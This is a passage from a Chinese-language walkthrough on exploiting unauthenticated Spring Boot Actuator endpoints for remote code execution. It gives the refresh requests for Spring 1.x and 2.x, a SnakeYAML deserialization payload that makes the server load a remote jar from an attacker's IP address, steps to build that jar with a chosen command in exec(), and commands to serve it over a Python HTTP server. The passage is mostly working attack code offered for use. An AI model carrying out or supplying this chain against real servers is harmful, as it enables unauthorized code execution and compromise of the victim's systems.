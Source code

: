 

**步骤三： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json

```



##### **利用实例**

这里使用的是python开启http服务。当使用python开启http服务时，根目录为当前执行命令的目录，所以先把yml和jar包放置到根目录下在执行python命令开启http服务



在根目录下放置yml文件，内容如下:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://192.168.233.243/example.jar"]
  ]]
]
```



在根目录下放置example.jar包(需要执行的命令)，代码编写及编译方式参考 [yaml-payload](https://github.com/artsploit/yaml-payload)

(代码也在网盘里面，为springcloud-snakeyaml-rce/yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java)

只需将exec()里面修改为执行的命令即可

![image-20210827163442633](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210827163442633.png)



将其进行打包成jar包

```
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf example.jar -C src/ .
```



使用python快速开启http服务

```
python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```
